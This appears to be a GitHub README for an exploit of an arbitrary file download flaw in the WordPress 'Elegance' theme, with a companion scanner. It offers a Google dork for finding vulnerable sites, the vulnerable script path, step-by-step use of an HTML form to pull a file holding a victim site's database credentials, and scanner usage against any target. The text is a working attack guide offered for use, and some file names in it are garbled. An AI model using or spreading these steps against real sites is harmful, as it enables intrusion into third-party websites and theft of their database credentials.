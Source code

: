 Wordpress Theme Elegance Arbitrary File Download Vulnerability + Scanner

Google Dork:

    Dork: inurl:/wp-content/themes/elegance
    
Vuln Path:

    Path: /wp-content/themes/elegance/lib/scripts/dl-skin.php
    
How to use:

Edit line 18 from wp-conent.html and you wil see the code bellow

    Code: <form action="http://www.example.com/wp-content/themes/elegance/lib/scripts/dl-skin.php" method="POST">
    
Change the url name to the one that you want to exploit 

    Code: <form action="http://www.test.org/wp-content/themes/elegance/lib/scripts/dl-skin.php" method="POST">
    
Open wp-conent.html in your browser and click "Download"

	Note: You should get the wp-content file containg the SQL info for the WP site that you just exploited.

You can use the scanner to see other vulns that the site may or may note have

	Scanner Usage: python scan.py www.target.com


